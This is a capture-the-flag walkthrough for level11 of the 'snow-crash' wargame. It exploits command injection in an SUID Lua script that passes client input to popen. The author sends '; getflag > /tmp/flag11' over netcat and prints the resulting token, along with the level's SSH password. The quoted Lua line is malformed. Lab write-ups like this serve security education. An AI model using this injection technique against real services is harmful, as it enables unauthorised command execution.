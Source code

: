 Login as `level11`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level11
level11@192.168.1.64's password: feulo4b72j7edeahuete3no7c
```
An `SUID` lua script is located in home directory.
```shell
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
The script indicates that something running on `localhost:5151`.
```shell
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?c
```
Verbose port scan for listening daemons, without sending any data to them.

`nc -zv` allows to check connection to `5151` without sending any data and verbose mode.
```shell
level11@SnowCrash:~$ nc -zv localhost 5151
Connection to localhost 5151 port [tcp/pcrd] succeeded!
```

`hash()` function receives input that is received from client.
Then it call `popen` (process open) inserting user input as echo's argument.
```lua
prog = io.popen(echo "..pass.." | sha1sum", "r")
prog = io.popen("echo ; getflag > /tmp/flag11; | sha1sum", "r")
```
Nc into `localhost:5151` and send string `; getflag > /tmp/flag11`
```shell
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: ; getflag > /tmp/flag11
Erf nope..
#level11@SnowCrash:~$ echo "; getflag > /tmp/flag11" | nc 127.0.0.1 5151
level11@SnowCrash:~$ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
